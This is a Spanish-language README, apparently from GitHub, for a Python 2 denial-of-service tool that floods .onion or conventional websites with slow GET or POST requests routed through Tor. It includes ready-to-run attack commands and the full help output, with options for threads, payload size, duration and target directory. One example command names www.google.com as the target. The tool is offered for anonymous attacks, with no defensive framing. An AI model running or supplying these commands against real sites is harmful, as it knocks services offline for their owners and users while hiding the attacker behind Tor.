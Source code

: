 # dos-atack-tor
script de python que permite usar conexiones cebollas para atacar paginas .onion o paginas convencionales via tor. tiene capacidad de ajustar la cantidad de informacion a enviar, el numero de hilos a usar, el tiempo de duracion del ataque, atacar a un directorio en especial y etc. Su ataque es sencillo, trata de saturar un recurso en base a peticiones GET en rutas del servidor excesivamente lentas.
 ![Alt text](https://raw.githubusercontent.com/desmonHak/dos-atack-tor/main/image/Screenshot_2021-12-11_02-55-33.png) 

se a de ejecutar con python 2, ejemplo:

-----------------------------------------------------------------------------------------
	python2 script-dos.py -ip 127.0.0.1 -t False -p 8000 -th 20 -c 10 -peticion GET -time 30
-----------------------------------------------------------------------------------------

este ejemplo atacaria al equipo local hacia el puerto 8000 usando 20 hilos y 10 caracteres por peticion GET, duraria 30 segundos el ataque, el uso tor esta desactivado, para mas inrformacion --help.

-----------------------------------------------------------------------------------------
	python2 script-dos.py --help
	usage: script-dos.py [-h] [-t TOR] [-ip TARGET] [-p PORT] [-th THREADS]
                     [-c CHARS] [-peticion PETICION] [-time TIMEATACK]
                     [-dir DIRECTORIO]
	optional arguments:
	  -h, --help            show this help message and exit
	  -t TOR, --tor TOR     Usar Tor en el ataque, por defecto activado
	  -ip TARGET, --target TARGET
        	                host o ip a atacar
	  -p PORT, --port PORT  puerto a atacar
	  -th THREADS, --threads THREADS
	                        threads/hilos a usar en el ataque, por defecto 20
	  -c CHARS, --chars CHARS
	                        caracteres a enviar, por defecto 20
	  -peticion PETICION, --peticion PETICION
	                        peticones a usar: GET o POST, POST por defecto
	                        ejemplo: python2 script-dos.py -ip www.google.com -p
	                        80 -th 30 -peticion GET -t True
	  -time TIMEATACK, --timeAtack TIMEATACK
	                        tiempo de duracion del ataque en segundosm tiempo por
	                        defecto: 45 segundos
	  -dir DIRECTORIO, --directorio DIRECTORIO
	                        atacar algun directorio en especial del servidor
-----------------------------------------------------------------------------------------

para el ataque tor, debe a ver un proxy tor SOCKS5 corriendo en la maquina local en el puerto 9050.
